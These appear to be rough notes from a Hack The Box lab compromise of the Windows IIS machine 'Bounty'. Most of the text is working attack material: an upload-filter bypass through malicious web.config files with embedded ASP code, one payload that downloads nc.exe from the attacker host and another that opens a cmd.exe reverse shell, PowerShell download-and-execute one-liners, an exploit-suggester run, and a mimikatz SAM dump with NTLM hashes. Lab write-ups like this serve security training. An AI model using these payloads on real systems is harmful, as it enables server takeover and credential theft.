

80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


trying to upload .aspx file


test.png



Can be accessed:


I'm able to upload any data with 
    Content-Disposition: form-data; name="FileUpload1"; filename="shell.png"
    Content-Type: image/png

but file extension is checked

valid: jpg,png,gif

does not check content or Content-Type

Traversal attack does not work


trying all of these with burp intruder
.asp
.aspx
.config
.ashx
.asmx
.aspq
.axd
.cshtm
.cshtml
.rem
.soap
.vbhtm
.vbhtml
.asa
.asp
.cer
.shtml


seems `.config` works


.jpg
.png
.gif
.webp
.tiff
.psd
.raw
.bmp
.heif
.indd
.svg
.ai
.eps
.pdf


only png, jpg, jpeg, gif are valid


https://gist.github.com/gazcbm/ea7206fbbad83f62080e0bbbeda77d9c


Download nc.exe save to C:\windows\temp
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' Set your settings
    strFileURL = "http://10.10.14.3/nc.exe"
    strHDLocation = "C:\Windows\Temp\nc.exe"
' Fetch the file
    Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
    objXMLHTTP.open "GET", strFileURL, false
    objXMLHTTP.send()
    If objXMLHTTP.Status = 200 Then
      Set objADOStream = CreateObject("ADODB.Stream")
      objADOStream.Open
      objADOStream.Type = 1 'adTypeBinary
      objADOStream.Write objXMLHTTP.ResponseBody
      objADOStream.Position = 0    'Set the stream position to the start
      Set objFSO = Createobject("Scripting.FileSystemObject")
        If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation
      Set objFSO = Nothing
      objADOStream.SaveToFile strHDLocation
      objADOStream.Close
      Set objADOStream = Nothing
    End if
    Set objXMLHTTP = Nothing
    
Response.write("<!-"&"-")
%>
-->
```

kali@kali:/usr/share/windows-binaries$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.93 - - [09/Feb/2021 15:59:08] "GET /nc.exe HTTP/1.1" 200 -

execute nc.exe

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
Set objShell = CreateObject("WScript.Shell")
objShell.Exec("c:\Windows\Temp\nc.exe -d 10.10.14.3 1234 -e c:\windows\system32\cmd.exe")
Response.write("<!-"&"-")
%>
-->
```


Microsoft Windows Server 2008 R2 Datacenter


kali@kali:~/htb/boxes/bounty/10.10.10.93$ /opt/privesc/windows/Windows-Exploit-Suggester/windows-exploit-suggester.py --database /opt/privesc/windows/Windows-E
xploit-Suggester/2020-12-09-mssb.xls -i sysinfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done


C:\Windows\Temp>wmic os get osarchitecture
wmic os get osarchitecture
OSArchitecture  
64-bit


powershell (new-object System.Net.WebClient).Downloadfile('http://10.10.14.3:9090/winPEAS.bat', 'winpeas.bat')


C:\Windows\Panther\Unattend.xml exists.


https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#appcmd-exe

Download and execute
c:\windows\system32\inetsrv>powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.3/appcmd.ps1')
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.3/appcmd.ps1')
False


C:\Windows\Panther\Unattend.xml

sensitive data deleted


powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.3/MS11-011.exe', 'MS11-011.exe')


mimikatz # lsadump::sam filename1.hiv filename2.hiv
Domain : BOUNTY
SysKey : d416c64501183d5dbfbd9798f79216b7
Local SID : S-1-5-21-2239012103-4222820348-3209614936

SAMKey : 95eed8fe42d961e7093ddc15c1dd2f5d

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 89dd4e73364721f8e2abe67d7090b686

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : merlin
  Hash NTLM: 2d588983dbc4d1356b19277afef85092
